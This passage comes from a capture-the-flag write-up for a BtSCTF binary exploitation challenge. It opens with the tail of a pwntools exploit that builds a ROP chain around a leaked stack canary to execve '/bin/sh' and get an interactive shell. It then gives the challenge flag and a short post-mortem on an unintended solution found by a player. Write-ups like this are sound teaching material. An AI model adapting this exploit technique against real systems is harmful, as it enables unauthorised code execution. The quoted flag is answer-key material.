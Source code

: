 ```python
    payload = b"/bin/sh\x00".rjust(24, b"\xfa") + p64(canary) + rbp + \
        p64(pop_rsi) + p64(0) + \
        p64(pop_rax) + p64(0x3b) + \
        p64(pop_rdi_rbp) + p64(stack-0x20) + p64(0x6162) + \
        p64(syscall)
    io.sendline(payload)
    info("payload sent")
    io.sendlineafter(b"poni", f"{0xc0ffee}".encode())
    io.interactive()


if __name__ == "__main__":
    main()
```

### Post-mortem

Funnily enough, even though the flag was `BtSCTF{I_really_hope_you_solved_it_the_intended_way}`
some people didn't notice the intended path and did some crazy stuff instead, which was way more cool.
This is what one player did:

![image](/files/bts/imgs/disco2.png)

One player called lmongol @0ur4n05 on the Discord server was able to to find the stack address,
which now seems obvious but I didn't even consider it.
